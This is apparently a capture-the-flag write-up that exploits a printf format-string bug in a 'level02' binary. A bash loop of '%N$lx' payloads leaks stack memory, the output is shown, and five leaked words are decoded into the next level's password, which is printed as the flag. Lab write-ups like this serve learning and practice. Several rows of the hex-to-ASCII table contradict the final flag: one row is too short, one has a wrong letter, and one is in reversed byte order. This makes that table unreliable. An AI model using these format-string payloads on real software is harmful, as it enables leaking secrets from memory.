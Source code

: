 
In this program, the vulnerability we will exploit is in the printf function.
```c
printf(&var);
```
which will allow us to read from the stack, considering that the flag is also located in the stack.

```c
FILE* rax = fopen("/home/users/level03/.pass", &data_400bb0);
    if (rax == 0)
    {
        fwrite("ERROR: failed to open password f…", 1, 0x24, stderr);
        exit(1);
        /* no return */
    }
    int32_t rax_1 = fread(&var_a8, 1, 0x29, rax);
```

```asm
Dump of assembler code for function main:
   0x0000000000400814 <+0>:     push   %rbp
   0x0000000000400815 <+1>:     mov    %rsp,%rbp
   0x0000000000400818 <+4>:     sub    $0x120,%rsp
```

Therefore, knowing that my stack has a size of 0x120 (288) and that we are in 64 bits, we know that the flag will be within the range of 0-36.

```
for i in {1..36}; do echo -n "$i " && echo "%${i}\$lx" | ./level02 | awk 'NR==6'; done
1 7fffffffe4f0 does not have access!
2 0 does not have access!
3 0 does not have access!
4 2a2a2a2a2a2a2a2a does not have access!
5 2a2a2a2a2a2a2a2a does not have access!
6 7fffffffe6e8 does not have access!
7 1f7ff9a08 does not have access!
8 0 does not have access!
9 0 does not have access!
10 0 does not have access!
11 0 does not have access!
12 0 does not have access!
13 0 does not have access!
14 0 does not have access!
15 0 does not have access!
16 0 does not have access!
17 0 does not have access!
18 0 does not have access!
19 0 does not have access!
20 100000000 does not have access!
21 0 does not have access!
22 756e505234376848 does not have access! <-------------------------
23 45414a3561733951 does not have access!
24 377a7143574e6758 does not have access!
25 354a35686e475873 does not have access!
26 48336750664b394d does not have access! <-------------------------
27 0 does not have access!
28 786c24383225 does not have access!
29 0 does not have access!
30 0 does not have access!
31 0 does not have access!
32 0 does not have access!
33 0 does not have access!
34 0 does not have access!
35 0 does not have access!
36 0 does not have access!
```

We can see that from 22 to 26, we have a sequence of elements, and our flags consist of 40 bytes (5 * 8). It's convenient since we have a sequence of 5.
Knowing that we are in little endian, if we convert it to ASCII, we retrieve our flag.

```
756e505234376848 become "H7RnPue"
45414a3561733951 become "Q9sa5JAA"
377a7143574e6758 become "XgNWCqz7"
354a35686e475873 become "sXGnh5J5"
48336750664b394d become "8H3PfK9M"
```

flag: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H